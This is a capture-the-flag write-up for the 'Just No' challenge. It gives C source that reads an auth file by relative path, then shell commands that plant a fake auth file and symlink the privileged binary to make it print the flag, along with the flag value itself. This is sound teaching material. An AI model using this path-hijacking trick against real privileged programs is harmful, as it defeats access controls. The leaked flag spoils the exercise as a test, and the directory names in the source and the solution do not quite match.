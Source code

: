 # Just No [ 40 Pts ]

## Problem

A program at /problems/ab718be873f8a7efe966f4ed5af749eb has access to a flag but refuses to share it. Can you convince it otherwise?

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>


int main(int argc, char **argv){ 
  FILE* authf = fopen("../../problems/f49abea6827cafa20a035340d3812d09/auth","r"); //access auth file in ../../../problems/f49abea6827cafa20a035340d3812d09
  if(authf == NULL){
    printf("could not find auth file in ../../problems/f49abea6827cafa20a035340d3812d09/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/f49abea6827cafa20a035340d3812d09/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
}
```

## Approach

We can see from the source code that the program uses relative path.
This can be bypassed by creating a symbolic link to the program at our home directory that is writable to us.

```
XXXXXXX@shell-web:~$ mkdir ~/problems/ab718be873f8a7efe966f4ed5af749eb

XXXXXXX@shell-web:~$ cd ~/problems/ab718be873f8a7efe966f4ed5af749eb

XXXXXXX@shell-web:~/problems/ab718be873f8a7efe966f4ed5af749eb$ echo yes > auth

XXXXXXX@shell-web:~/problems/ab718be873f8a7efe966f4ed5af749eb$ ln -s /problems/ab718be873f8a7efe966f4ed5af749eb/justno justno                           

XXXXXXX@shell-web:~/problems/ab718be873f8a7efe966f4ed5af749eb$ ls -l       
total 4
-rw-r--r-- 1 XXXXXXX XXXXXXX  4 May 10  2017 auth
lrwxrwxrwx 1 XXXXXXX XXXXXXX 49 Jun 21 15:42 justno -> /problems/ab718be873f8a7efe966f4ed5af749eb/justno

XXXXXXX@shell-web:~/problems/ab718be873f8a7efe966f4ed5af749eb$ ./justno 
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 3a7cbd7c24f7d5369308333b045382e7

```

(Completed)
